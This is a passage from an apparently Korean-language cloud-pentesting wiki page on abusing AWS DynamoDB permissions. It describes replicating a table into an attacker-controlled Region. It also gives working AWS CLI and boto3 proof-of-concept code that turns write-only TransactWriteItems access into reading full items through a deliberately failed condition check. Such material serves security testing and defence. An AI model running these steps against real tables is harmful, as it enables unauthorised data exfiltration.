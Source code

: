 권한: `dynamodb:UpdateTable` (with `replica-updates`) 또는 대상 테이블에 대한 `dynamodb:CreateTableReplica`. 복제본에 CMK가 사용되는 경우 해당 키에 대한 KMS 권한이 필요할 수 있습니다.

잠재적 영향: 전체 테이블이 attacker-controlled Region으로 복제되어 stealthy data exfiltration로 이어질 수 있습니다.

### `dynamodb:TransactWriteItems` (실패한 조건을 통한 읽기 + `ReturnValuesOnConditionCheckFailure=ALL_OLD`)

트랜잭셔널 쓰기 권한을 가진 attacker는 `TransactWriteItems` 내부에서 `Update`를 수행하고 의도적으로 `ConditionExpression`을 실패시키며 `ReturnValuesOnConditionCheckFailure=ALL_OLD`를 설정함으로써 기존 항목의 전체 속성을 exfiltrate할 수 있습니다. 실패 시, DynamoDB는 트랜잭션 취소 사유에 이전 속성을 포함하므로, 특정 키에 대한 쓰기 전용 액세스를 사실상 읽기 액세스로 전환합니다.

{{#tabs }}
{{#tab name="PoC (AWS CLI >= supports cancellation reasons)" }}
```bash
# Create the transaction input (list form for --transact-items)
cat > /tmp/tx_items.json << 'JSON'
[
{
"Update": {
"TableName": "<TableName>",
"Key": {"<PKName>": {"S": "<PKValue>"}},
"UpdateExpression": "SET #m = :v",
"ExpressionAttributeNames": {"#m": "marker"},
"ExpressionAttributeValues": {":v": {"S": "x"}},
"ConditionExpression": "attribute_not_exists(<PKName>)",
"ReturnValuesOnConditionCheckFailure": "ALL_OLD"
}
}
]
JSON

# Execute. Newer AWS CLI versions support returning cancellation reasons
aws dynamodb transact-write-items \
--transact-items file:///tmp/tx_items.json \
--region <region> \
--return-cancellation-reasons
# The command fails with TransactionCanceledException; parse cancellationReasons[0].Item
```
{{#endtab }}
{{#tab name="PoC (boto3)" }}
```python
import boto3
c=boto3.client('dynamodb',region_name='<region>')
try:
c.transact_write_items(TransactItems=[{ 'Update': {
'TableName':'<TableName>',
'Key':{'<PKName>':{'S':'<PKValue>'}},
'UpdateExpression':'SET #m = :v',
'ExpressionAttributeNames':{'#m':'marker'},
'ExpressionAttributeValues':{':v':{'S':'x'}},
'ConditionExpression':'attribute_not_exists(<PKName>)',
'ReturnValuesOnConditionCheckFailure':'ALL_OLD'}}])
except c.exceptions.TransactionCanceledException as e:
print(e.response['CancellationReasons'][0]['Item'])
```
{{#endtab }}
{{#endtabs }}
